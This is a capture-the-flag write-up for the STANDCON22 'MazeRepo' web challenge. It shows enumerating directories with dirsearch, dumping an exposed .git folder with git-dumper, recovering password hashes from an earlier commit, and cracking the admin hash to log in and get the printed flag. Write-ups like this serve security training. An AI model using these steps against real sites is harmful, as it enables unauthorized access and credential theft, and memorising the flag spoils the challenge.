



# MazeRepo
> Points: 500

# Description

> You are about to witness a repository that has more than it meets the eye! Some think it as a maze but I would say it's the mirror that deceives you the most :)
>
> `nc 18.141.84.203 58160`
>
> The above port will spawn an instance of your challenge please do not attack it.
>
> Note: Hint #1 can be exchanged on the discord server with fishes. Hints here are hints #2 onwards.

# Solution

Starting the challenge and viewing the provided webpage does not provide much information regarding the type of exploit.



Next, we enumerate standard web directories using gobuster and dirsearch. Using dirsearch yields the following results.

```bash
[15:10:08] 403 -  281B  - /.php                                            
[15:10:15] 200 -  942B  - /backup/                                          
[15:10:15] 301 -  324B  - /backup  ->  http://18.141.84.203:60314/backup/   
[15:10:15] 403 -  281B  - /cgi-bin/                                         
[15:10:20] 200 -    1KB - /index.php                                        
[15:10:20] 200 -    1KB - /index.php/login/                                 
[15:10:26] 403 -  281B  - /server-status                                    
[15:10:26] 403 -  281B  - /server-status/  
```

Visiting the `/backup` there is a file called `users.db` which is likely an sqlite database. Doing a simple `cat` on the file shows the following information.

```bash
└─# cat users.db 
NN/=tableloginloginCREATE TABLE login (
        id INTEGER PRIMARY KEY NOT NULL,
        username TEXT NOT NULL,
        password TEXT NOT NULL,
        email TEXT NOT NULL,
        admin INTEGER NOT NULL
```

The information does not help us with the exploitation.

Doing further enumeration using dirsearch on the `/backup` folder,

```bash
└─# dirsearch -u http://18.141.84.203:60314/backup
   
  _|. _ _  _  _  _ _|_    v0.4.2
 (_||| _) (/_(_|| (_| )


Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 30 | Wordlist size: 10927


Output File: /home/kasm-user/.dirsearch/reports/18.141.84.203-60314/-backup_22-06-24_15-13-56.txt

Error Log: /home/kasm-user/.dirsearch/logs/errors-22-06-24_15-13-56.log

Target: http://18.141.84.203:60314/backup/

[15:13:56] Starting: 
[15:13:57] 301 -  329B  - /backup/.git  ->  http://18.141.84.203:60314/backup/.git/
[15:13:57] 200 -    3KB - /backup/.git/                     
[15:13:57] 200 -   73B  - /backup/.git/description
[15:13:57] 200 -   40B  - /backup/.git/COMMIT_EDITMSG      
```
There is a `.git` directory inside of backup. Using `git-dumper` it is possible to dump out the git repo.

This can be done with this command,  `git-dumper http://18.141.84.203:60314/backup/ mazerepo`, which dumps the git directory to a new folder, `mazerepo`.

Inside of `mazerepo` is a `users.db` which is identical to above database. Checking the branches using `git branch -a` , shows that there is another branch called **develop**.

```bash
└─# git branch -a
  develop
* main
  remotes/origin/develop
  remotes/origin/main
```

Switching to the **develop** branch and viewing the history. There is a commit with the description `[SECURITY FIX] Removed password hashes.` An example of the log can be found below.

```bash
└─# git log 
commit 08639b3c3ee4164e49007d5cf7b6f38ea0f2c316 (HEAD -> develop, origin/develop)
Author: Samantha McCarthy <samantha@insecurecorp.com>
Date:   Sun Mar 20 04:46:45 2022 +0000

    [SECURITY FIX] Removed password hashes.

commit db076c2c5954771f1c6878f174d0ed9c310c9e98
Author: Samantha McCarthy <samantha@insecurecorp.com>
Date:   Sun Mar 20 04:45:39 2022 +0000

    Added initial userbase.

commit 6dd7f1db2b923ab81f8c3a61a1af072a95dbb2db (origin/main, main)
Author: Taylor Ivanovich <taylor@insecurecorp.com>
Date:   Sun Mar 20 04:43:15 2022 +0000

    Added db with schema.
```

Switching to the commit `db076c2c5954771f1c6878f174d0ed9c310c9e98` and listing the databases, displays some usernames and hashed passwords.

```bash
└─# sqlite3 users.db 
SQLite version 3.38.5 2022-05-06 15:25:27
Enter ".help" for usage hints.
sqlite> select * from loginl
1|john|c67a0e602a14bd3c044c211a247543bc|john@n0h4ts.com|0
2|mary|a0730c2cbc70248b02deadef08df9c2d|mary@n0h4ts.com|0
3|andrew|37e6da31612b9af7f35334762610bbdf|andrew@n0h4ts.com|0
4|jim|e2b5357bebf845e2b65a778cb10c6a89|jim@n0h4ts.com|0
5|candace|ef86e416090141499abf1067a0ef19cc|candace@n0h4ts.com|0
6|martha|cf437898f42863588bede0d6812b2eba|martha@n0h4ts.com|0
7|elliot|24af1b08c221ce3916ae34252dd8feef|elliot@n0h4ts.com|0
8|tom|c2991a5d085d8d36b6857479fdf3f6cb|tom@n0h4ts.com|0
9|michael|a6539c35ec07965956f1de7b3ec36971|michael@n0h4ts.com|1
10|sara|24a865f97e426bdb8b7ccc8720ae635a|sara@n0h4ts.com|0
```

Using crackstation, on the passwords, we can retrieve that plaintext password for **micheal**.



Using the credentials to log into the webpage, the flag is displayed there.



# Flag

`STANDCON22{bl33d!ng_g!t_r3p0_!s_4_tr34sur3_tr0v3}`